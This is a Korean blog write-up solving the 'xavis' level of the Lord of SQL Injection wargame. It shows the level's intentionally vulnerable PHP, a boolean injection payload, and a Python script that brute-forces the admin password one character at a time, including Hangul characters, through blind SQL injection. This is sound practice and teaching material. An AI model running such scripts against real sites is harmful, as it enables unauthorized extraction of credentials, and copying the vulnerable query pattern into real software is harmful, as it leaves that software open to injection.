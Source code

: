 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] xavis"
excerpt: " "
comments: true
share: true
tags:
  - MitNy
  - Lord of SQL Injection
  - Write-up
---
```



### xavis 한글 조합 셋으로 풀기

`query : select id from prob_xavis where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`?pw=1' or length(pw)='1`와 같은 쿼리가 필터링 없이 잘 적용된다
이 쿼리로 알아낸 패스워드의 길이는 12이다.

알파벳,숫자 조합,substr로 패스워드를 한 글자씩 알아내려고 하면 Hello guest만 뜨고 admin의 경우는 알 수가 없다.

그래서 알아봤더니 패스워드가 한글이어서 그렇다!!
다른 분들은 Hex 값으로 알아낸 후 10진수로 바꿔주고 그 값을 한글로 바꿔주는 방식을 사용하셨는데,
답이 한글이라는 것을 알고있다는 전제 하에 한글 조합셋으로 문제를 푸는 코드를 짜봤다.
[한글 조합 파일](https://github.com/MitNy/Python-Web-Hacking/blob/master/LOS/hangul.txt)도 직접 만들었다.. 


```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/xavis.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""
f = open("hangul.txt",mode="rt", encoding="utf-8")
line = f.read()
n_split = line.split("\n")
hangul = n_split[0].split(" ")
for i in range(0,len(hangul)):
    alpha += hangul[i]

for i in range(1,20):
    parameter = "?pw=1%27%20or%20length(pw)=%27"+str(i)+"%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break

for j in range(1,length):
    for i in alpha:
        parameter = "?pw=1%27%20or%20substr(pw,"+str(j)+",1)=%27"+str(i)
        print(parameter)
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(j) + " -> " + str(i))
            result += str(i)
            break

    if j == 1 and result == "":
        print("password not found")
        exit(0)

    if j == length-1:
        result = result.lower()
        print("\npassword is "+result)
        print("\n")
```

진짜진짜 오래걸리니 Hex 값을 이용해 문제를 푸는 방식을 추천 드립니다..

![]({{ site.baseurl }}/images/mitny/los/xavis_result.png)

![]({{ site.baseurl }}/images/mitny/los/xavis_clear.png)

